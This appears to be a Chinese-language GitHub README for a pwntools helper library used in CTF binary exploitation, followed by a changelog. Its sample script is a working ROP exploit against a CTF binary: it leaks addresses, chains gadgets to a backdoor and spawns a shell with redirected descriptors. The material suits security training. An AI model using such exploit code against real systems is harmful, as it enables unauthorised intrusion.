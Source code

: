 # pwn_all_in_one

## 背景

每次写pwn题的时候，都需要使用到重复的模板，个人感觉非常的占位置，所以继承了一个pwntools.py的文件

每次写题目的时候只需要`from pwntools import *`就可以开始快速写题，而无需注意到某些烦人的代码片段

## 使用

本脚本是基于Python3的pwntools，使用到了一些Python3独有的f-string之类的东西，所以Python2的pwner可能无法使用，得自己改改

使用方法非常的简单, 把下面的pwntools.py放到`~/.local/lib/python3.X/site-packages`, Python默认导包的路径就行了

随便写了一个脚本用例来参考一下

- 如果是打本地, 直接`python3 exp.py`就可以进行本地运行了
- 如果是打远程, 使用`python3 exp.py 114.51.41.91:11451` 或者 `python3 exp.py 114.51.41.91 11451` 就可以自动打远程

当然远程ip还可以在`init`函数中设置, 或者在执行init函数之前设置`pwnio`对象的`ip`和`port`属性

```python
from pwntools import *

init("./buffer_fly")    # 调用init函数,每次只需要调用这个就可以开始写题了,必要的参数是文件名！

sla("name", "")

ru("your name:")
rl()

close_plt = pwnio.elf.plt["close"]    # 注意要调用pwnio这个类中的elf,也可以使用pwnio["elf"].plt["close"]

true_close_plt = i16(hex(uu64(ru("\n"))) + "0a") - 10
info(true_close_plt)
base = true_close_plt - (0x55765683C100 - 0x55765683B000)
info(base)

pop_rdi_ret = 0x0000000000001423 + base
ret = 0x000000000000101A + base

sa("age", b"/bin/sh|")
ru("your age:")
stack = l64()   # l64是一个封装好的接受\x7f开头的64位地址

info(f"stack --> {hex(stack)}")

bin_sh = stack + (0x7FFC4757AF40 - 0x7FFC4757B060)
back_door = base + 0x129D

payload = (
    b"sh 0>&2 ".ljust(0x28, b"a")
    + p64(pop_rdi_ret)
    + p64(bin_sh)
    + p64(back_door)
    + p64(0)
)

dbg()   # 调用gdb.attach, 如果是远程, 那么就不会执行

sa("number", payload)
sl("sh 1>&2")

ia()    # 交互
```

## 更新日志
- 2022.9.4
  - 配置了部分常用函数
- 2022.9.22
  - 默认使用wsl2 ubuntu进行debug， 若要自己使用自己的终端调试配置，在init函数中第四个参数terminal_args中添加
- 2022.9.25
  - 修复了静态文件加载会爆libc无效错误的异常
  - 添加了一个timeout模块，用来进行自定义事件的pwn
  - 更新了init函数，添加了自定义ip和port的功能，同时保留了命令行输入ip和port的功能
- 2022.10.1
  - 重构了init模块
  - 将所有的全局变量转为pwnio类中的成员变量，方便其他文件导入模块时更改
  - 删除了部分不必要的函数
  - 优化了dbg()函数，远程将不会开启gdb调试
  - 更新了open_dbg()和close_dbg()
  - 规范了函数注释
- 2022.10.31
  - 优化了pwnio，使用了Python的面向对象
  - 目前调用pwnio对象的属性可以通过`.`的方式调用，也可以使用`[]`的方式调用
  - 新添加一个均分列表的方法
- 2022.11.19
  - 新增了leak函数，使用leak获取地址的同时在控制台打印泄露的地址
  - 更新了i16和i10函数，可以传入bytes或者str类型
  - 修改默认开启过滤 `Text is not bytes` 的警告